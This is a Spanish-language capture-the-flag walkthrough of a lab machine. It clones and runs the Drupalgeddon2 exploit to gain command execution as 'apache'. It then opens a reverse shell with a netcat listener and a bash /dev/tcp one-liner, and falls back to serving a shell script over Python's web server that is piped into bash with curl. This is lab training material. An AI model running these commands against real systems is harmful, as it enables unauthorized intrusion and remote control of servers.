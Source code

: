 ```bash
git clone https://github.com/dreadlocked/Drupalgeddon2
cd Drupalgeddon2
cat drupalgeddon2.rb
ruby drupalgeddon2.rb
```



## Explotacion de vulnerabilidad & Ganando acceso {-}

### Druppalgeddon {-}

```bash
ruby druppalgeddon2.rb 10.10.10.233
whoami
#Output
> apache
ifconfig
#Output
> 10.10.10.233
```

Entablamos ahora una reverse shell para sacarse de este contexto.

1. maquina de atacante

    ```bash
    nc -nlvp 443
    ```

1. druppalgeddon2 shell

    ```bash
    bash -i >& /dev/tcp/10.10.14.20/443 0>&1
    ```

Esto no functiona porque el comando contiene **bad chars**. Como la maquina no tiene **nc** ni **ncat** la tecnica seria la siguiente:

1. Creamos un archivo *index.html* que contiene

    ```html
    #!/bin/bash

    bash -i >& /dev/tcp/10.10.14.20/443 0>&1
    ```

1. Compartimos un servidor web con *python*

    ```bash
    python3 -m http.server 80
    ```

1. En la drupalgeddon2 shell

    ```bash
    curl -s 10.10.14.20 | bash
    ```
    